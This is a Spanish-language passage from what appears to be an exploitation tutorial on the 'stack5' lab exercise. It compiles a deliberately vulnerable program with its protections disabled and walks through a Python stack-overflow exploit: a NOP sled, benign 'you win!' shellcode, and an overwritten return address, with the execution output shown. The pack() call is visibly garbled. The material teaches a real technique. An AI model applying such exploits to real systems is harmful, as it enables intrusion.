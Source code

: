     ```
    user@abos:~$ gcc -m32 -no-pie -fno-stack-protector -ggdb 
    -mpreferred-stack-boundary=2 -z execstack -o stack5 stack5.c
       
    user@abos:~$ ./stack5
    buf: bffff5b4 cookie: bffff604
    ```
* Planificamos el overflow por entrada estándar, considerando el formato little endian:

![](<../../../.gitbook/assets/imagen (105).png>)

*   Armamos un archivo en Python para ingresar el input

    ```
       
    #! /usr/bin/env python
    """Uso: ./exploit.py | ./stack5 """
       
    import sys
    from struct import pack
       
    #shellcode, imprime you win!
    shellcode  = "\xeb\x16\x31\xc0\x59\x88\x41\x08\xb0\x04\x31\xdb\x43"
    shellcode += "\x31\xd2\xb2\x09\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe5"
    shellcode += "\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x41" 
                   
    ret_addr = 0xbffff5b4                           #addr de buf
       
    exploit  = "\x90" * 20                          #nops iniciales buf
    exploit += shellcode                            #shellcode
    exploit += "A" * (80-20-len(shellcode))         #padding hasta fin de buf
    exploit += "BBBB"                               #lleno cookie
    exploit += "CCCC"                               #lleno ebp
    exploit += pack(", ret_addr)                 #defino return address
       
    sys.stdout.write(exploit)    
    ```
*   Ejecutamos el exploit

    ```
    user@abos:~$ ./exploit.py | ./stack5
    buf: bffff5b4 cookie: bffff604
    you win!
    ```

    Gráficamente logramos el siguiente resultado:

![](<../../../.gitbook/assets/imagen (106).png>)
